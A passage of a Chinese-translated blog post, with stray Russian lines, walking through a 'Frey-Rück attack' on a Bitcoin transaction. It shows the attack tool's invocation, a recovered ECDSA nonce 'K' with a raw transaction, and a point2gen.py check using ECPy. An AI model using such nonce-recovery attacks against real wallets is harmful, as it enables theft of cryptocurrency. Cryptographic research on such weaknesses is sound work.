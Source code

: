 

<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-55-1024x313.png" alt="實施 Frey-Rück 攻擊以獲得密鑰“K”（NONCE）" class="wp-image-996"/></figure>



<p>我們發起了這次攻擊<code>-tool frey_ruck_attack</code>並將結果保存到一個文件中<code>SecretKey.txt</code></p>



<p>現在看到成功的結果，打開文件<code>SecretKey.txt</code></p>



<pre class="wp-block-code"><code>cat SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-57-1024x466.png" alt="實施 Frey-Rück 攻擊以獲得密鑰“K”（NONCE）" class="wp-image-999"/></figure>



<pre class="wp-block-code"><code>Deployments ECDSA:

SecretKey = 0xa63d1fe332773809f41bc0d67262088d918a34a71444e30c19424c64b13e6e3c

RawTX = 010000000128231a6d229f0dbea21477c631fd38d8c87159dc59b917bb822c4f593b5fba8e040000006a47304402203458a4ca3bd23a0e255b6c6f579019b1ca112d0f0e2fe4b9635423b9fbee204d0220445065a0df0007cb92c64c775019fb04cfdeb7e5820f61d6b31a52af6e2d091301210273376122cb37be518f8f47085978fda04eb7ced923b00d055b581b6fc2b179ffffffffff010000000000000000046a02585900000000</code></pre>



<p>我們看到一個銘文<code>"Deployments ECDSA"</code>，表示比特幣區塊鏈交易中存在嚴重漏洞。</p>



<p><code>SecretKey значение в формате HEX, это и есть наш секретный ключ "K" (NONCE):</code></p>



<p><code>K = 0xa63d1fe332773809f41bc0d67262088d918a34a71444e30c19424c64b13e6e3c</code></p>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2>讓我們用<em>Python</em>腳本檢查一下<code>point2gen.py</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p><a href="https://pypi.org/project/ECPy/" target="_blank" rel="noreferrer noopener"><strong>讓我們使用ECPy</strong></a>橢圓曲線庫：</p>



<p>現在讓我們通過指定運行腳本<code>&nbsp;секретный ключ "K" (NONCE)</code>：</p>



<pre class="wp-block-code"><code>python3 point2gen.py 0xa63d1fe332773809f41bc0d67262088d918a34a71444e30c19424c64b13e6e3c</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-58-1024x85.png" alt="實施 Frey-Rück 攻擊以獲得密鑰“K”（NONCE）" class="wp-image-1003"/></figure>
